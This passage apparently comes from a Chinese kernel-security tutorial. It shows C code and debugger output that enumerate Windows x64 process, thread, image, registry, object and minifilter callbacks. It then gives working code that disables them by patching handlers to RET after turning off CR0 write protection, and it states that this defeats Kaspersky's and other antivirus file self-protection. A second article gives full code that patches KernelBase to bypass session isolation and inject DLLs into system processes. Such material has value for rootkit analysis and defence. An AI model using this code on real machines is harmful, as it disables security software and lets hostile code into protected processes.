        if(MmIsAddressValid((PVOID)NotifyAddr) && NotifyAddr!=0)
        {
            NotifyAddr=*(PULONG64)(NotifyAddr & 0xffffffffffffff8);
            DbgPrint("[CreateProcess]%llx",NotifyAddr);
        }
    }
}
```

枚举线程回调同理，先找到 **PspCreateThreadNotifyRoutine** 的地址。此符号存在于 **PsSetCreateThreadNotifyRoutine** 里：

```text
lkd> uf PsSetCreateThreadNotifyRoutine
nt!PsSetCreateThreadNotifyRoutine:
fffff800`042a7be0 48895c2408        mov     qword ptr [rsp+8],rbx
fffff800`042a7be5 57                push    rdi
fffff800`042a7be6 4883ec20          sub     rsp,20h
fffff800`042a7bea 33d2              xor     edx,edx
fffff800`042a7bec e86faffeff        call    nt!ExAllocateCallBack (fffff800`04292b60)
fffff800`042a7bf1 488bf8            mov     rdi,rax
fffff800`042a7bf4 4885c0            test    rax,rax
fffff800`042a7bf7 7507              jne     nt!PsSetCreateThreadNotifyRoutine+0x20
```

```asm
(fffff800`042a7c00)

nt!PsSetCreateThreadNotifyRoutine+0x19:
fffff800`042a7bf9 b89a0000c0        mov     eax,0C000009Ah
fffff800`042a7bfe eb4a              jmp     nt!PsSetCreateThreadNotifyRoutine+0x6a
(fffff800`042a7c4a)

nt!PsSetCreateThreadNotifyRoutine+0x20:
fffff800`042a7c00 33db              xor     ebx,ebx

nt!PsSetCreateThreadNotifyRoutine+0x22:
fffff800`042a7c02 488d0d5799d9ff    lea     rcx,[nt!PspCreateThreadNotifyRoutine(fffff800`04041560)]
fffff800`042a7c09 4533c0            xor     r8d,r8d
fffff800`042a7c0c 488bd7            mov     rdx,rdi
fffff800`042a7c0f 488d0cd9          lea     rcx,[rcx+rbx*8]
fffff800`042a7c13 e83814f8ff        call    nt!ExCompareExchangeCallBack(fffff800`04229050)
fffff800`042a7c18 84c0              test    al,al
fffff800`042a7c1a 7511              jne     nt!PsSetCreateThreadNotifyRoutine+0x4d
(fffff800`042a7c2d)
// 省略后续无关内容
```

枚举的代码也类似：

```c
void EnumCreateThreadNotify()
{
    int i = 0;
    BOOLEAN b;
    ULONG64 NotifyAddr = 0, MagicPtr = 0;
    ULONG64 PspCreateThreadNotifyRoutine = FindPspCreateThreadNotifyRoutine();
    DbgPrint("PspCreateThreadNotifyRoutine: %llx", PspCreateThreadNotifyRoutine);
    if (!PspCreateThreadNotifyRoutine)
        return;

    for (i = 0; i < 64; i++)
    {
        MagicPtr = PspCreateThreadNotifyRoutine + i * 8;
        NotifyAddr = *(PULONG64)(MagicPtr);
        if (MmIsAddressValid((PVOID)NotifyAddr) && NotifyAddr != 0)
        {
            NotifyAddr = *(PULONG64)(NotifyAddr & 0xfffffffffffffff8);
            DbgPrint("[CreateThread]%llx", NotifyAddr);
        }
    }
}
```

最后执行的效果如图 1 所示。

| # | Time | Debug Print |
|---|---|---|
| 1 | 0.00000000 | [WING4LUD]DriverEntry |
| 2 | 9.69565201 | PsSetCreateProcessNotifyRoutine: fffff800042d81b0 |
| 3 | 9.69566441 | PspCreateProcessNotifyRoutine: fffff80004041780 |
| 4 | 9.69567204 | [CreateProcess]fffff80003e66af0 |
| 5 | 9.69567966 | [CreateProcess]fffff880012121e0 |
| 6 | 9.69568443 | [CreateProcess]fffff8800107e3d0 |
| 7 | 9.69569016 | [CreateProcess]fffff880016fa3c0 |
| 8 | 9.69569588 | [CreateProcess]fffff88000d57ba0 |
| 9 | 9.69570255 | [CreateProcess]fffff88002a2ed2c |
| 10 | 9.69575882 | PsSetCreateThreadNotifyRoutine: fffff800042a7be0 |
| 11 | 9.69576740 | PspCreateThreadNotifyRoutine: fffff80004041560 |
| 12 | 9.69577408 | [CreateThread]fffff88002de80dc |
| 13 | 9.69577980 | [CreateThread]fffff88002de80f0 |

图 1

由于干净的 WIN7X64 系统是没有 CreateThread 回调的。为了体现枚举效果，特意在示例代码里增加了创建线程回调的代码。

## ImageNotify

与进程/线程回调类似，映像回调也存储在数组里。这个数组的“符号名”是 PspLoadImageNotifyRoutine。我们可以在 PsSetLoadImageNotifyRoutine 中找到它。

```asm
lkd> uf PsSetLoadImageNotifyRoutine
nt!PsSetLoadImageNotifyRoutine:
fffff800`02e9fb60 48895c2408      mov     qword ptr [rsp+8],rbx
fffff800`02e9fb65 57              push    rdi
fffff800`02e9fb66 4883ec20        sub     rsp,20h
fffff800`02e9fb6a 33d2            xor     edx,edx
fffff800`02e9fb6c e8efafceff      call    nt!ExAllocateCallBack (fffff800`02e8ab60)
fffff800`02e9fb71 488bf8          mov     rdi,rax
fffff800`02e9fb74 4885c0          test    rax,rax
fffff800`02e9fb77 7507            jne     nt!PsSetLoadImageNotifyRoutine+0x20 (fffff800`02e9fb80)

nt!PsSetLoadImageNotifyRoutine+0x19:
fffff800`02e9fb79 b89a0000c0      mov     eax,0C000009Ah
fffff800`02e9fb7e eb4a            jmp     nt!PsSetLoadImageNotifyRoutine+0x6a (fffff800`02e9fbca)

nt!PsSetLoadImageNotifyRoutine+0x20:
fffff800`02e9fb80 33db            xor     ebx,ebx

nt!PsSetLoadImageNotifyRoutine+0x22:
fffff800`02e9fb82 488d0d7799d9ff  lea     rcx,[nt!PspLoadImageNotifyRoutine (fffff800`02c39500)]
fffff800`02e9fb89 4533c0          xor     r8d,r8d
fffff800`02e9fb8c 488bd7          mov     rdx,rdi
fffff800`02e9fb8f 488d0cd9        lea     rcx,[rcx+rbx*8]
fffff800`02e9fb93 e8b814f8ff      call    nt!ExCompareExchangeCallBack (fffff800`02e21050)
fffff800`02e9fb98 84c0            test    al,al
fffff800`02e9fb9a 7511            jne     nt!PsSetLoadImageNotifyRoutine+0x4d (fffff800`02e9fbad)
```

实现的代码如下：

```cpp
ULONG64 FindPspLoadImageNotifyRoutine()
{
    ULONG64 i = 0, pCheckArea = 0;
    UNICODE_STRING unstrFunc;
    RtlInitUnicodeString(&unstrFunc, L"PsSetLoadImageNotifyRoutine");
    pCheckArea = (ULONG64)MmGetSystemRoutineAddress(&unstrFunc);
    DbgPrint("PsSetLoadImageNotifyRoutine: %llx", pCheckArea);

    for (i = pCheckArea; i < pCheckArea + 0xff; i++)
    {
        if (*(PUCHAR)i == 0x48 && *(PUCHAR)(i + 1) == 0x8d && *(PUCHAR)(i + 2) == 0x0d)
        // lea rcx, xxxx
        {
            LONG OffsetAddr = 0;
            memcpy(&OffsetAddr, (PUCHAR)(i + 3), 4);
            return OffsetAddr + 7 + i;
        }
    }
    return 0;
}
```

枚举的过程与枚举进程和线程回调类似，从数组中读取值之后，需要进行位运算“解密”才能得到地址。

```cpp
void EnumLoadImageNotify()
{
    int i = 0;
    BOOLEAN b;
    ULONG64 NotifyAddr = 0, MagicPtr = 0;
    ULONG64 PspLoadImageNotifyRoutine = FindPspLoadImageNotifyRoutine();
    DbgPrint("PspLoadImageNotifyRoutine: %llx", PspLoadImageNotifyRoutine);
    if (!PspLoadImageNotifyRoutine)
        return;

    for (i = 0; i < 8; i++)
    {
        MagicPtr = PspLoadImageNotifyRoutine + i * 8;
        NotifyAddr = *(PULONG64)(MagicPtr);
        if (MmIsAddressValid((PVOID)NotifyAddr) && NotifyAddr != 0)
        {
            NotifyAddr = *(PULONG64)(NotifyAddr & 0xfffffffffffffff8);
            DbgPrint("[LoadImage]%llx", NotifyAddr);
        }
    }
}
```

删除回调的方法就是调用 PsRemoveLoadImageNotifyRoutine 实现，也可以通过写入机器码（RET）让回调直接返回。最后执行效果如图 2 所示。

| Time | Debug Print |
|---|---|
| 0.00000000 | PsSetLoadImageNotifyRoutine: fffff80002e9fb60 |
| 0.00000286 | PspLoadImageNotifyRoutine: fffff80002c39500 |
| 0.00000468 | [LoadImage]fffff80002daecc0 |
| 0.00000629 | [LoadImage]fffff880082c7758 |

图 2

在干净的 WIN7X64 系统，可能没有 LoadImage 回调，为了体现枚举效果，可以在测试驱动前运行一下 WIN64AST。

但我想说明的是，用这三种回调（CreateProcess、CreateThread、LoadImage）来做监控其实并不怎么靠谱，因为系统里存在一个开关，叫做 PspNotifyEnableMask，如果它的值被设置为 0，那么所有的相关操作都不会经过回调。换句话说，如果 PspNotifyEnableMask 等于 0，那么所有的进程、线程、映像回调都会失效。不过这个变量并没有在导出函数中直接出现，所以找到它略难。

## CmpCallback

注册表回调在 XP 系统上貌似是一个数组，但是从 Windows 2003 开始，就变成了一个链表。这个链表头称为 CallbackListHead，可在 CmUnRegisterCallback 中找到。

```asm
lkd> uf CmUnRegisterCallback
nt!CmUnRegisterCallback:
fffff800`01cba790 48894c2408      mov     qword ptr [rsp+8],rcx
fffff800`01cba795 53              push    rbx
fffff800`01cba796 56              push    rsi
fffff800`01cba797 57              push    rdi
fffff800`01cba798 4154            push    r12
fffff800`01cba79a 4155            push    r13
fffff800`01cba79c 4156            push    r14
fffff800`01cba79e 4157            push    r15
fffff800`01cba7a0 4883ec60        sub     rsp,60h
fffff800`01cba7a4 41bc0d0000c0    mov     r12d,0C000000Dh
fffff800`01cba7aa 4489a424b0000000 mov    dword ptr [rsp+0B0h],r12d
fffff800`01cba7b2 33db                    xor     ebx,ebx
fffff800`01cba7b4 48895c2448              mov     qword ptr [rsp+48h],rbx
fffff800`01cba7b9 33c0                    xor     eax,eax
fffff800`01cba7bb 4889442450              mov     qword ptr [rsp+50h],rax
fffff800`01cba7c0 4889442458              mov     qword ptr [rsp+58h],rax
fffff800`01cba7c5 448d6b01                lea     r13d,[rbx+1]
fffff800`01cba7c9 458afd                  mov     r15b,r13b
fffff800`01cba7cc 4488ac24a8000000        mov     byte ptr [rsp+0A8h],r13b
fffff800`01cba7d4 440f20c7                mov     rdi,cr8
fffff800`01cba7d8 450f22c5                mov     cr8,r13
fffff800`01cba7dc f00fba351b6adcff00      lock btr dword ptr [nt!CallbackUnregisterLock (fffff800`01a81200)],0
fffff800`01cba7e5 720c                    jb      nt!CmUnRegisterCallback+0x63 (fffff800`01cba7f3)
```

```cpp
// 省略中间无关代码
```

```asm
nt!CmUnRegisterCallback+0xc6:
fffff800`01cba856 4533c0                  xor     r8d,r8d
fffff800`01cba859 488d542420              lea     rdx,[rsp+20h]
fffff800`01cba85e 488d0d6b69dcff          lea     rcx,[nt!CallbackListHead (fffff800`01a811d0)]
fffff800`01cba865 e8a261e5ff              call    nt!CmListGetNextElement (fffff800`01b10a0c)
fffff800`01cba86a 488bf8                  mov     rdi,rax
fffff800`01cba86d 4889442428              mov     qword ptr [rsp+28h],rax
fffff800`01cba872 483bc3                  cmp     rax,rbx
fffff800`01cba875 0f84b8000000            je      nt!CmUnRegisterCallback+0x1a3 (fffff800`01cba933)
```

搜索的过程与寻找进程、线程、映像的数组类似，根据 `lea REG,XXX` 来定位。不过为了更加精准，这次我采用两次 `lea REG,XXX` 来定位。

```cpp
ULONG64 FindCmpCallbackAfterXP()
{
    ULONG64 uiAddress = 0;
    PUCHAR pCheckArea = NULL, i = 0, j = 0, StartAddress = 0, EndAddress = 0;
    ULONG64 dwCheckAddr = 0;
    UNICODE_STRING unstrFunc;
    UCHAR b1 = 0, b2 = 0, b3 = 0;
    ULONG templong = 0, QuadPart = 0xfffff800;

    RtlInitUnicodeString(&unstrFunc, L"CmUnRegisterCallback");
    pCheckArea = (UCHAR*)MmGetSystemRoutineAddress(&unstrFunc);
    if (!pCheckArea)
    {
        KdPrint(("MmGetSystemRoutineAddress failed."));
    }
```

```c
return 0;
}
StartAddress = (PUCHAR)pCheckArea;
EndAddress = (PUCHAR)pCheckArea + PAGE_SIZE;
for(i=StartAddress;i<EndAddress;i++)
{
    if( MmIsAddressValid(i) && MmIsAddressValid(i+1) && MmIsAddressValid(i+2) )
    {
        b1=*i;
        b2=*(i+1);
        b3=*(i+2);
        if( b1==0x48 && b2==0x8d && b3==0x0d ) //488d0d(lea rcx,)
        {
            j=i-5;
            b1=*j;
            b2=*(j+1);
            b3=*(j+2);
            if( b1==0x48 && b2==0x8d && b3==0x54 ) //488d54(lea rdx,)
            {
                memcpy(&templong,i+3,4);
                uiAddress = MakeLong64ByLong32(templong) + (ULONGLONG)i + 7;
                return uiAddress;
            }
        }
    }
}
return 0;
}
```

定位完毕之后，就是枚举链表了。注册表回调是一个“结构体链表”，类似于 EPROCESS，它的定义如下：

```c
typedef struct _CM_NOTIFY_ENTRY
{
    LIST_ENTRY        ListEntryHead;
    ULONG             UnKnown1;
    ULONG             UnKnown2;
    LARGE_INTEGER     Cookie;
    ULONG64           Context;
    ULONG64           Function;
}CM_NOTIFY_ENTRY, *PCM_NOTIFY_ENTRY;
```

我们只关心两个值，一个是 Cookie，一个是 Function。前者可以理解成注册表回调的“句柄”（用 CmUnRegisterCallback 注销回调传入的就是这个 Cookie），后者是回调函数的地址。

代码如下：

```c
ULONG CountCmpCallbackAfterXP(ULONG64* pPspLINotifyRoutine)
{
    ULONG            sum = 0;
    ULONG64          dwNotifyItemAddr;
    ULONG64*         pNotifyFun;
    ULONG64*         baseNotifyAddr;
    ULONG64          dwNotifyFun;
    LARGE_INTEGER    cmpCookie;
    PLIST_ENTRY      notifyList;
    PCM_NOTIFY_ENTRY notify;

    dwNotifyItemAddr = *pPspLINotifyRoutine;
    notifyList = (LIST_ENTRY *)dwNotifyItemAddr;
    do
    {
        notify = (CM_NOTIFY_ENTRY *)notifyList;
        if (MmIsAddressValid(notify))
        {
            if (MmIsAddressValid((PVOID)(notify->Function)) && notify->Function > 0x8000000000000000)
            {
                DbgPrint("[CmCallback]Function=%p\tCookie=%p",
                    (PVOID)(notify->Function), (PVOID)(notify->Cookie.QuadPart));
                //notify->Function=(ULONG64)MyRegistryCallback;
                sum++;
            }
        }
        notifyList = notifyList->Flink;
    } while (notifyList != ((LIST_ENTRY *)(*pPspLINotifyRoutine)));

    return sum;
}
```

执行效果类似于图 3。

```text
11.94157314   [MY FUNCTION]: FFFFF88003C23008
11.94157600   [MY COOKIE]: 01CEF9B0165BD342
11.94158268   CmCallbackListHead: FFFFF800040C91D0
11.94158459   [CmCallback]Function=FFFFF88005ED2CB8 Cookie=01CEF9B0165BD341
11.94158554   [CmCallback]Function=FFFFF88003C23008 Cookie=01CEF9B0165BD342
```

图 3

不过需要注意的是，干净的 WIN7X64 系统是没有注册表回调的。为了体现枚举效果，可以在测试驱动前运行 WIN64AST。对付注册表回调有三种方法（老三套）：

- 直接使用 CmUnRegisterCallback 把回调注销；
- 把链表中记录的回调地址修改为自定义的空函数的回调地址；
- 直接在目标回调地址上写一个 RET，使其不执行任何代码就返回。

第三种方法没有针对性，可以用于对付任何回调函数。DisableFunctionWithReturnValue 用来对付有返回值的回调函数，DisableFunctionWithoutReturnValue 用于对付无返回值的回调函数。

```c
KIRQL WPOFFx64()
{
    KIRQL irql=KeRaiseIrqlToDpcLevel();
    UINT64 cr0=__readcr0();
    cr0 &= 0xfffffffffffeffff;
    __writecr0(cr0);
    _disable();
    return irql;
}

void WPONx64(KIRQL irql)
{
    UINT64 cr0=__readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(irql);
}

VOID DisableFunctionWithReturnValue(PVOID Address)
{
    KIRQL irql;
    CHAR patchCode[] = "\x33\xC0\xC3";  //xor eax,eax + ret
    if(MmIsAddressValid(Address))
    {
        irql=WPOFFx64();
        memcpy(Address,patchCode,3);
        WPONx64(irql);
    }
}

VOID DisableFunctionWithoutReturnValue(PVOID Address)
{
    KIRQL irql;
    if(MmIsAddressValid(Address))
    {
        irql=WPOFFx64();
        RtlFillMemory(Address,1,0xC3);
        WPONx64(irql);
    }
}
```

## ObCallback

对象回调存储在对应对象结构体里，简单来说，就是存储在 ObjectType.CallbackList 这个双向链表里。但对象结构体在每个系统上都不一定相同。比如 WIN7X64 的结构体如下：

```text
ntdll!_OBJECT_TYPE
    +0x000 TypeList                 : _LIST_ENTRY
    +0x010 Name                     : _UNICODE_STRING
    +0x020 DefaultObject            : Ptr64 Void
    +0x028 Index                    : UChar
    +0x02c TotalNumberOfObjects     : Uint4B
    +0x030 TotalNumberOfHandles     : Uint4B
    +0x034 HighWaterNumberOfObjects : Uint4B
    +0x038 HighWaterNumberOfHandles : Uint4B
    +0x040 TypeInfo                 : _OBJECT_TYPE_INITIALIZER
    +0x0b0 TypeLock                 : _EX_PUSH_LOCK
    +0x0b8 Key                      : Uint4B
    +0x0c0 CallbackList             : _LIST_ENTRY
```

按理来说，知道了回调存储的地址，枚举应该就很简单了。但是只有一个链表能知道什么？对象回调至少有三个关键信息：PreCall 函数地址，PostCall 函数地址，回调句柄。这些信息藏在哪里呢？当年我对此感到百思不得其解。后来经过研究，发现秘密就藏在 CallbackList 的第二项以及之后。换句话说，在 ListHead->Flink 以及之后大有乾坤。Object.CallbackList->Flink 指向的地址，是一个结构体链表，它的定义如下：

```c
typedef struct _OB_CALLBACK
{
    LIST_ENTRY   ListEntry;
    ULONG64      Unknown;
    ULONG64      ObHandle;
    ULONG64      ObjTypeAddr;
    ULONG64      PreCall;
    ULONG64      PostCall;
} OB_CALLBACK, *POB_CALLBACK;
```

微软没有公开这个结构体的定义，这个结构体是我逆向出来的，但是至少在 WIN7、WIN8 和 WIN8.1 上通用。知道了结构体的定义，枚举就方便了（WINDOWS 目前仅有进程对象回调和线程对象回调，但就算以后有了其它回调，也是通用的）。

```c
ULONG EnumObCallbacks()
{
    ULONG c=0;
    PLIST_ENTRY CurrEntry=NULL;
    POB_CALLBACK pObCallback;
    BOOLEAN IsTxCallback;

    ULONG64 ObProcessCallbackListHead = *(ULONG64*)PsProcessType + ObjectCallbackListOffset;
    ULONG64 ObThreadCallbackListHead  = *(ULONG64*)PsThreadType  + ObjectCallbackListOffset;
    //
    dprintf("ObProcessCallbackListHead: %p\n",ObProcessCallbackListHead);
    CurrEntry=((PLIST_ENTRY)ObProcessCallbackListHead)->Flink;    //list_head 的数据是垃圾数据，忽略
    do
    {
        pObCallback=(POB_CALLBACK)CurrEntry;
        if(pObCallback->ObHandle!=0)
        {
            dprintf("ObHandle: %p\n",pObCallback->ObHandle);
            dprintf("PreCall: %p\n",pObCallback->PreCall);
            dprintf("PostCall: %p\n",pObCallback->PostCall);
            c++;
        }
        CurrEntry = CurrEntry->Flink;
    }
    while(CurrEntry != (PLIST_ENTRY)ObProcessCallbackListHead);
    //
    dprintf("ObThreadCallbackListHead: %p\n",ObThreadCallbackListHead);
    CurrEntry=((PLIST_ENTRY)ObThreadCallbackListHead)->Flink;    //list_head 的数据是垃圾数据，忽略
    do
    {
        pObCallback=(POB_CALLBACK)CurrEntry;
        if(pObCallback->ObHandle!=0)
        {
            dprintf("ObHandle: %p\n",pObCallback->ObHandle);
            dprintf("PreCall: %p\n",pObCallback->PreCall);
            dprintf("PostCall: %p\n",pObCallback->PostCall);
            c++;
        }
        CurrEntry = CurrEntry->Flink;
    }
    while(CurrEntry != (PLIST_ENTRY)ObThreadCallbackListHead);
    dprintf("ObCallback count: %ld\n",c);
    return c;
}
```

代码运行的效果如图 4 所示。（干净的 WIN7X64 系统上是没有对象回调的，为了体现枚举效果，可以先运行 WIN64AST）。

```text
16.79011917   NtBuildNumber: 7601
16.79012108   ObProcessCallbackListHead: FFFFFA8018D41B20
16.79012299   ObHandle: FFFFF8A0019FA510
16.79012489   PreCall: FFFFF80005E2D028
16.79012680   PostCall: 0000000000000000
16.79012871   ObThreadCallbackListHead: FFFFFA8018D419D0
16.79012871   ObHandle: FFFFF8A00115CC60
16.79013062   PreCall: FFFFF80005E2D1D8
16.79013252   PostCall: 0000000000000000
16.79013443   ObCallback count: 2
```

图 4

对付对象回调，方法还是老三套：

- 用 ObUnRegisterCallbacks 传入 ObHandle 注销回调；
- 把记录的回调函数地址改为自己设置的空回调；
- 给对方设置的回调函数地址写入 RET。

不过这次使用第三种方法要注意，必须先禁掉 PostCall，再禁用 PreCall，否则容易蓝屏，不信自己试试。

## MiniFilter

枚举 MiniFilter 主要使用 FltEnumerateFilters 这个 API，它会返回过滤器对象（FLT_FILTER）的地址，然后根据过滤器对象的地址，加上一个偏移，获得记录过滤器 PreCall、PostCall、IRP 等信息的结构体指针（PFLT_OPERATION_REGISTRATION）。上文之所以说要加上偏移，是因为 FLT_FILTER 的定义在每个系统都不同，比如 WIN7X64 中的定义为：

```text
lkd> dt fltmgr!_FLT_FILTER
   +0x000 Base                    : _FLT_OBJECT
   +0x020 Frame                   : Ptr64 _FLTP_FRAME
   +0x028 Name                    : _UNICODE_STRING
   +0x038 DefaultAltitude         : _UNICODE_STRING
   +0x048 Flags                   : _FLT_FILTER_FLAGS
   +0x050 DriverObject            : Ptr64 _DRIVER_OBJECT
   +0x058 InstanceList            : _FLT_RESOURCE_LIST_HEAD
   +0x0d8 VerifierExtension       : Ptr64 _FLT_VERIFIER_EXTENSION
   +0x0e0 VerifiedFiltersLink     : _LIST_ENTRY
   +0x0f0 FilterUnload            : Ptr64 long
   +0x0f8 InstanceSetup           : Ptr64 long
   +0x100 InstanceQueryTeardown   : Ptr64 long
   +0x108 InstanceTeardownStart   : Ptr64 void
   +0x110 InstanceTeardownComplete: Ptr64 void
   +0x118 SupportedContextsListHead: Ptr64 _ALLOCATE_CONTEXT_HEADER
   +0x120 SupportedContexts       : [6] Ptr64 _ALLOCATE_CONTEXT_HEADER
   +0x150 PreVolumeMount          : Ptr64 _FLT_PREOP_CALLBACK_STATUS
   +0x158 PostVolumeMount         : Ptr64 _FLT_POSTOP_CALLBACK_STATUS
   +0x160 GenerateFileName        : Ptr64 long
   +0x168 NormalizeNameComponent  : Ptr64 long
   +0x170 NormalizeNameComponentEx: Ptr64 long
   +0x178 NormalizeContextCleanup : Ptr64 void
   +0x180 KtmNotification         : Ptr64 long
   +0x188 Operations              : Ptr64 _FLT_OPERATION_REGISTRATION
```

```c
+0x190 OldDriverUnload     : Ptr64 void
+0x198 ActiveOpens         : _FLT_MUTEX_LIST_HEAD
+0x1e8 ConnectionList      : _FLT_MUTEX_LIST_HEAD
+0x238 PortList            : _FLT_MUTEX_LIST_HEAD
+0x288 PortLock            : _EX_PUSH_LOCK
```

不过幸好 FLT_OPERATION_REGISTRATION 的结构体定义是不变的。

```c
lkd> dt _FLT_OPERATION_REGISTRATION
fltmgr!_FLT_OPERATION_REGISTRATION
+0x000 MajorFunction       : UChar
+0x004 Flags               : Uint4B
+0x008 PreOperation        : Ptr64 _FLT_PREOP_CALLBACK_STATUS
+0x010 PostOperation       : Ptr64 _FLT_POSTOP_CALLBACK_STATUS
+0x018 Reserved1           : Ptr64 Void
```

枚举的代码如下：

```c
ULONG EnumMiniFilter()
{
    long ntStatus;
    ULONG uNumber;
    PVOID pBuffer = NULL;
    ULONG uIndex = 0, DrvCount = 0;
    PVOID pCallBacks, pFilter;
    PFLT_OPERATION_REGISTRATION pNode;
    do
    {
        if (pBuffer != NULL)
        {
            ExFreePool(pBuffer);
            pBuffer = NULL;
        }
        ntStatus = FltEnumerateFilters(NULL, 0, &uNumber);
        if (ntStatus != STATUS_BUFFER_TOO_SMALL)
            break;

        pBuffer = ExAllocatePoolWithTag(NonPagedPool, sizeof(PFLT_FILTER) * uNumber, 'mnft');

        if (pBuffer == NULL)
        {
            ntStatus = STATUS_INSUFFICIENT_RESOURCES;
            break;
        }

        ntStatus = FltEnumerateFilters(pBuffer, uNumber, &uNumber);
    }
    while (ntStatus == STATUS_BUFFER_TOO_SMALL);

    if (!NT_SUCCESS(ntStatus))
    {
        if (pBuffer != NULL)
            ExFreePool(pBuffer);
        return 0;
    }

    DbgPrint("MiniFilter Count: %ld\n", uNumber);
    DbgPrint("------\n");

    __try
    {
        while (DrvCount < uNumber)
        {
            pFilter = (PVOID)(*(PULONG64)((PUCHAR)pBuffer + DrvCount * 8));
            pCallBacks = (PVOID)((PUCHAR)pFilter + FltFilterOperationsOffset);
            pNode = (PFLT_OPERATION_REGISTRATION)(*(PULONG64)pCallBacks);

            __try
            {
                while (pNode->MajorFunction != 0x80)  // IRP_MJ_OPERATION_END
                {
                    if (pNode->MajorFunction < 28)    // MajorFunction id is 0~27
                    {
                        DbgPrint("Object=%p\tPreFunc=%p\tPostFunc=%p\tIRP=%d\n",
                            pFilter,
                            pNode->PreOperation,
                            pNode->PostOperation,
                            pNode->MajorFunction);
                    }
                    pNode++;
                }
            }
            __except (EXCEPTION_EXECUTE_HANDLER)
            {
                FltObjectDereference(pFilter);
                DbgPrint("[EnumMiniFilter]EXCEPTION_EXECUTE_HANDLER: pNode->MajorFunction\n");
                ntStatus = GetExceptionCode();
                ExFreePool(pBuffer);
                return uIndex;
            }

            DrvCount++;
            FltObjectDereference(pFilter);
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        FltObjectDereference(pFilter);
        DbgPrint("[EnumMiniFilter]EXCEPTION_EXECUTE_HANDLER\n");
        ntStatus = GetExceptionCode();
        ExFreePool(pBuffer);
        return uIndex;
    }

    DbgPrint("------\n");

    if (pBuffer != NULL)
    {
        ExFreePool(pBuffer);
        ntStatus = STATUS_SUCCESS;
    }
    return uIndex;
}
```

代码执行的效果如图 5 所示（可以对比一下运行 WIN64AST 前后枚举的结果有什么不同）。


图 5

不过对抗 MiniFilter 似乎就只有两种方法了：

- 把记录的函数地址改为自己设置的空函数；
- 把处理函数头改为 RET 直接返回。

为什么不能直接把 MiniFilter 对象反注册呢？因为 MSDN 对 FltUnregisterFilter 的用途给出了这样的解释：A minifilter driver can only call FltUnregisterFilter to unregister itself, not another minifilter driver。据我测试，如果第三方驱动强制使用此函数注销一个 MiniFilter，轻则无效，重则蓝屏。

把 MiniFilter 的处理函数禁用掉之后，卡巴斯基 2013 在 WIN64 系统上的文件保护就彻底失效了，可以直接使用最简单的方法来删除卡巴斯基文件夹内的文件，国内那些采用同样方法实现文件自我保护的杀毒软件（360、金山毒霸等）同理。

## Windows64 注入 DLL 到系统进程

文/图 胡文亮

在 NT5 系统里，只要有 ADMIN 权限，就可以把任意 DLL 注入到系统进程。但 NT6 系统为了安全起见，引入了 SESSION 隔离机制，使这一美好现实化为了泡影。但实际上微软并没有把这一套做绝，SESSION 隔离是在 RING 3 实现的，而非在 RING 0 里实现，这就为破解这一机制提供了可能。

远程注入 DLL 主要是使用 CreateRemoteThread 函数，CreateRemoteThread 函数内部又调用了 CreateRemoteThreadEx。在 CreateRemoteThreadEx 里，有一处是否禁用 SESSION 隔离的判断（以下反汇编代码来自 WIN7X64SP1）：

```asm
KERNELBASE!CreateRemoteThreadEx+0x224:
000007fe`fd5db564      803dd15205000000        cmp     byte ptr [KERNELBASE!KernelBaseGlobalData+0x5c (000007fe`fd63083c)],0
000007fe`fd5db56b      0f85d5320100            jne     KERNELBASE!CreateRemoteThreadEx+0x343 (000007fe`fd5ee846)
```

说到这里，其实谜底已经揭开了：直接把 KERNELBASE!KernelBaseGlobalData+0x5c 的值设置为 1，即可在系统进程里创建远程线程。注入 DLL 就按照以前的老方法即可。另外，每个系统的偏移都不一样，在 WIN8X64 和 WIN8.1X64 里，是否禁用 SESSION 隔离的值记录在 KERNELBASE!KernelBaseGlobalData+0x4 处（通过反汇编 CreateRemoteThreadEx 得知）。

```cpp
typedef void* (__fastcall *LPFN_KernelBaseGetGlobalData)(void);

BOOL WINAPI InjectDllExW(DWORD dwPID, PCWSTR pwszProxyFile)
{
    BOOL ret = FALSE;
    HANDLE hToken = NULL;
    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    FARPROC pfnThreadRtn = NULL;
    PWSTR pwszPara = NULL;
    PVOID pRemoteShellcode = NULL;

    CLIENT_ID Cid = {0};
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
    if (!hProcess)
        return FALSE;

    // Get Function Address
    pfnThreadRtn = GetProcAddress(GetModuleHandle(TEXT("Kernel32.dll")), "LoadLibraryW");

    // Set String to remote process
    size_t iProxyFileLen = wcslen(pwszProxyFile) * sizeof(WCHAR);
    pwszPara = (PWSTR)VirtualAllocEx(hProcess, NULL, iProxyFileLen, MEM_COMMIT, PAGE_READWRITE);
    if (!pwszPara)
        return FALSE;

    WriteProcessMemory(hProcess, pwszPara, (PVOID)pwszProxyFile, iProxyFileLen, NULL);

    // Start patch
    LPFN_KernelBaseGetGlobalData pKernelBaseGetGlobalData = NULL;
    UCHAR* pGlobalData = NULL;
    UCHAR* pMisc = NULL;
    ULONG PatchOffset = 0;

    pKernelBaseGetGlobalData =
        (LPFN_KernelBaseGetGlobalData)GetProcAddress(LoadLibraryW(L"KernelBase.dll"), "KernelBaseGetGlobalData");
    pGlobalData = (UCHAR*)pKernelBaseGetGlobalData();

    OSVERSIONINFOA osi = {0};
    osi.dwOSVersionInfoSize = sizeof(OSVERSIONINFOA);
    GetVersionEx(&osi);

    // Get patch position by build number
    switch (osi.dwBuildNumber)
    {
        /*
        KERNELBASE!CreateRemoteThreadEx+0x224:
        000007fe`fdb1b184    803db156050000        cmp byte ptr
        [KERNELBASE!KernelBaseGlobalData+0x5c (000007fe`fdb7083c)],0
        */
        case 7600:
        case 7601:
        {
            PatchOffset = 0x5C;
            break;
        }

        /*
        KERNELBASE!CreateRemoteThreadEx+0x1a8:
        000007fa`7859ef28    44380d35470b00        cmp byte ptr
        [KERNELBASE!KernelBaseGlobalData+0x4 (000007fa`78653664)],r9b
        */
        case 9200:
        {
            PatchOffset = 0x4;
            break;
        }

        default:
            break;
    }

    printf("PatchOffset: %x\n", PatchOffset);
    pMisc = pGlobalData + PatchOffset;
    *pMisc = 1;

    // Create remote thread
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pfnThreadRtn, pwszPara, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);

    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pwszPara, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    return TRUE;
}
```

效果如图 1 和图 2 所示。


图 1


图 2

（完）

